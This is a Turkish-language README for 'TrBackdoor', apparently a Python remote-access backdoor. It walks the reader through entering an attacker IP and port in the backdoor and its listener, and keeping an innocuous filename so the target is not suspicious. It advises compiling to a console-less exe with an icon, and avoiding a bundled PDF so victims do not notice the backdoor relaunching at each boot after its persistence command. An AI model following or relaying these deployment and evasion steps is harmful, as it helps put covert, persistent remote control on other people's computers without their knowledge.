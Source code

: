 # TrBackdoor
## Komutlar
![ConverotrExe](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/Menu.png)
## Backdoor Ayarları
Not: sysupgrades ismini isterseniz değiştirebilirsiniz. Lakin backdoor'u hedefte saklamak istediğiniz zaman değiştirmiş olacağınız isim kullanıcıyı şüphelendirmemeli.<br/>
Öncelikle "sysupgrades.py" dosyamızı herhangi bir editör ile açınız ('SublimeText3').<br/>Daha sonra sınıfın dışında yer alan"ConfigSocket = MySocket("<İP>"<PORT>) kısmına backdoor için bir ip adresi ve port numarası giriniz. Yani<br/>
<br/>![ConverotrExe](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/BackdoorConfig.png)
## Exe'ye Çevirme
"sysupgrades.py" backdoor'umuzu hedefimize göndermeden önce "pyinstaller" kullanarak exe'ye çevirelim.<br/> Burada size önerdiğim exe'ye çevirme işleminde mutlaka bir icon ekleyiniz ve noconsole komutunu kullanınız. Fakat dosyayı bir başka dosya ile (pdf) birleştirmeyiniz. Çünkü bağlantı sağladıktan sonra "migrate" komutunu kullandığınız sırada backdoor saklanacaktır. Kullanıcı bilgisayarını her başlattığında başlayacaktır. İşte bu başlatma sırasında her defasında backdoor ile birlikte pdf açılmasın ki kullanıcı şüphelenmesin diye exe'ye çevirirken bir dosya ile birleştirilmesini önermiyorum.<br/>
<br/>![ConverotrExe](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/ExeConvertor.png)<br/>
## Listener Ayarları
"Listener.py" dosyamızı yine bir editör ile açalım. Ardından yine alt tarafta yer alan<br/> "my_socket_listener = SocketListener("<İP>"<PORT>)" kısmını kendi local ip adresimizi girelim. Yani<br/>
 <br/>![ConfigListener](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/ListenerSettings.png)<br/>Böylece artık gelen bağlantıları dinlemeye hazırsınız.<br/><br/>
 <br/>![ConfigListener](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/workgif.gif)


